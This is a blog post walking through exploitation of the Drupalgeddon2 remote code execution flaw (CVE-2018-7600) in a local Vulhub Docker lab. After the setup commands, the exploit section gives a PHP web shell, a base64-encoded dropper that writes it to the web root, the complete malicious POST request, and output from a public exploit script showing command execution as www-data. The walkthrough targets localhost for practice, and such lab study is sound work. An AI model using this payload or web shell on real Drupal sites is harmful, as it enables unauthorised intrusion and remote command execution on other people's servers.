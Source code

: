 ```yaml
---
layout: post
title:  "Exploiting drupalgeddon2"
tagline: "A closer look at CVE-2018-7600"
description: "A closer look at CVE-2018-7600 detailing how to exploit it and how to set up a vulnerable test environment with vulhub"
tags: [notes, durpal, exploits, vulhub, drupalgeddon2]
date:   2018-09-11
comments: true
image:
  feature: blog/5/feature.jpg
  hero: blog/5/header.jpg
  credit: Soumil Kumar
  creditlink: https://www.pexels.com/photo/photo-of-person-typing-on-computer-keyboard-735911/
---
```

## Summary
**On 28 March 2018** The Drupal team [announced a highly critical remote code execution vulnerability](https://www.drupal.org/sa-core-2018-002) in Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1. Although a patch for this issue has been made broadly available, there are still sites that have [not been upgraded](/reports/3/).

## Deploying a vulnerable environment
Before we dive into exploiting CVE-2018-7600, we will need a target. A quick and easy way to setup a vulnerable target to practice on is using [Vulhub](https://github.com/vulhub/vulhub), an open-source collection of pre-built vulnerable docker environments. The project is primarily is Chinese, however there is work being done by myself and others to translate the project to English.

We can [install vulhub and it's dependencies](https://github.com/vulhub/vulhub/blob/master/README.md#installation) on a debian based system (Ubuntu / Kali) by running the following

```shell_session
# Install pip
$ sudo curl -s https://bootstrap.pypa.io/get-pip.py | python3

# Install the latest version docker
$ sudo curl -s https://get.docker.com/ | sh

# Run docker service
$ sudo service docker start

# Install docker compose
$ sudo pip install docker-compose

# Download project
$ git clone https://github.com/vulhub/vulhub.git

# Enter directory
$ cd vulhub

```

Once vulhub is installed, we can go ahead and setup our Drupal 8 instance.
You can also view [the documentation for this specific environment](https://github.com/vulhub/vulhub/blob/master/drupal/CVE-2018-7600/README.md) (translated by me!).

```shell_session
# Enter the environment directory
$ cd drupal/CVE-2018-7600/

# Start the environment
$ sudo docker-compose up -d
```

With the vulnerable environment now setup and running we can visit `http://127.0.0.1:8080/` and complete the Drupal installation.

During the installation we will select the "standard" profile and "SQLite" as the database type.


![](/assets/img/blog/5/drupal-install.png)

## Exploit

To exploit this vulnerability, we will send a POST request to our target and write the following to shell.php
```php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```

This can be done by sending the following command to the target

```shell
echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./shell.php
```

The request will ultimately look like this

```http
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 127.0.0.1:8080
User-Agent:
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Authorization: Basic
Content-Type: application/x-www-form-urlencoded
Content-Length: 245

form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./shell.php
```

Once the shell has been written we can interact with it at `http://127.0.0.1:8080/shell.php?c=id` replacing `id` with the command we wish to run.

---

Alternatively this can also be done automatically with [this exploit](https://github.com/dreadlocked/Drupalgeddon2) written by [@\_dreadlocked](https://twitter.com/_dreadlocked) and [@g0tmi1k](https://twitter.com/g0tmi1k)

```shell
$ ruby /opt/exploit-database/exploits/php/webapps/44449.rb http://127.0.0.1:8080
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://127.0.0.1:8080/
--------------------------------------------------------------------------------
[!] MISSING: http://127.0.0.1:8080/CHANGELOG.txt (404)
[+] Found  : http://127.0.0.1:8080/core/CHANGELOG.txt (200)
[+] Drupal?: 8.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo JMJQYOFR
[+] Result : JMJQYOFR<span class="ajax-new-content"></span>
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }<span class="ajax-new-content"></span>
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://127.0.0.1:8080/s.php' -d 'c=whoami'
41bc2a2fa908>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
41bc2a2fa908>>
```
